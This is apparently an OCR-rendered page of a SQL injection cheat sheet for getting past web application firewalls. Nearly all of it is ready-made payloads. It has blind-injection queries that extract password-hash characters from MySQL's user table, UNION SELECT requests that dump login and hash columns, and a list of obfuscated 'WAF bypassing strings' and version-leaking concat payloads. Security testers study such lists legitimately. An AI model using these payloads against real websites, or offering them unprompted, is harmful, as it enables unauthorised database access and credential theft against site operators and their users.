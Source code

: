 select user from mysql.user where user = 'user' OR
mid(password,1,1)=0x2a
select user from mysql.user where user = 'user' OR
mid(password,1,1)=unhex('2a')
select user from mysql.user where user = 'user' OR mid(password,1,1)
regexp '\[\*\]'
select user from mysql.user where user = 'user' OR mid(password,1,1)
like '\*'
select user from mysql.user where user = 'user' OR mid(password,1,1)
rlike '\[\*\]'
select user from mysql.user where user = 'user' OR
ord(mid(password,1,1))=42
select user from mysql.user where user = 'user' OR
ascii(mid(password,1,1))=42
select user from mysql.user where user = 'user' OR
find_in_set('2a',hex(mid(password,1,1)))=1
select user from mysql.user where user = 'user' OR position(0x2a in
password)=1
select user from mysql.user where user = 'user' OR
locate(0x2a,password)=1
<b>Known:
</b> substring((select 'password'),1,1) = 0x70
substr((select 'password'),1,1) = 0x70
mid((select 'password'),1,1) = 0x70
<b>New:</b>
strcmp(left('password',1), 0x69) = 1
strcmp(left('password',1), 0x70) = 0
strcmp(left('password',1), 0x71) = -1
STRCMP(expr1,expr2) returns 0 if the strings are the same, -1 if the
first , argument is smaller than the second one, and 1 otherwise.

<b>An example of signature bypass.</b>
The following request gets to WAF signature
/?id=1+union+(select+1,2+from+users) But sometimes, the signatures used
can be bypassed
/?id=1+union+(select+'xz'from+xxx)

`/?id=(1)union(select(1),mid(hash,1,32)from(users))`
`/?id=1+union+(select'1',concat(login,hash)from+users)`
`/?id=(1)union(((((((select(1),hex(hash)from(users))))))))`
`/?id=(1)or(0x50=0x50)`

<b>An SQL Injection attack can successfully bypass the WAF , and be
conducted in all following cases:</b>
• Vulnerabilities in the functions of WAF request normalization.
• Application of HPP and HPF techniques.
• Bypassing filter rules (signatures).
• Vulnerability exploitation by the method of blind SQL Injection.
• Attacking the application operating logics (and/or)

<b>WAF Bypassing Strings.</b>

` /*!%55NiOn*/ /*!%53eLEct*/`
` %55nion(%53elect 1,2,3)-- -`
` +union+distinct+select+`
` +union+distinctROW+select+`
` /**//*!12345UNION SELECT*//**/`
` concat(0x223e,@@version)`
` concat(0x273e27,version(),0x3c212d2d)`
` concat(0x223e3c62723e,version(),0x3c696d67207372633d22)`
` concat(0x223e,@@version,0x3c696d67207372633d22)`
` concat(0x223e,0x3c62723e3c62723e3c62723e,@@version,0x3c696d67207372633d22,0x3c62​723e)`
` concat(0x223e3c62723e,@@version,0x3a,”BlackRose”,0x3c696d67207372633d22)`
` concat(‘’,@@version,’’)`
` /**//*!50000UNION SELECT*//**/`
` /**/UNION/**//*!50000SELECT*//**/`